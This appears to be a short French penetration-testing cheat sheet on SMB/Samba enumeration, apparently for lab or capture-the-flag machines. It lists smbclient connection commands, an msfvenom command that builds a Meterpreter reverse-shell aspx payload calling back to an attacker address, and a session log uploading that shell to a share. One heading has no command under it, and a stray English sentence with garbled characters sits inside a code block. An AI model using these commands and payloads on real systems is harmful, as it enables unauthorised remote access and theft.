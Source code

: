 # 📂 SMB Samba

Enumerate SMB Samba

Pour se connecter directement essayer ça:

```bash
smbclient -U user \\\\10.10.250.140\\user
```

ou

```bash
smbclient \\\\10.10.x.x\\nt4wrksv
```

ou

```bash
smbclient //10.10.46.10/share anonymous(ou user) -p 445
```

Pour lister les partages SMB :

Au cas où, pour créer un payload aspx et l'envoyer sur le SMB:

```bash
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspxNow, letâ€™s connect to the network share and upload our reverse shell aspx file: 
smb: \> put shell.aspx 
putting file shell.aspx as \shell.aspx (12.9 kb/s) (average 7.9 kb/s)
smb: \> ls
  .                                   D        0  Thu Aug 27 22:48:34 2020
  ..                                  D        0  Thu Aug 27 22:48:34 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A    38409  Thu Aug 27 22:48:37 2020
  test.txt                            A        5  Thu Aug 27 22:42:10 2020
        7735807 blocks of size 4096. 4946700 blocks available
smb: \> 
```
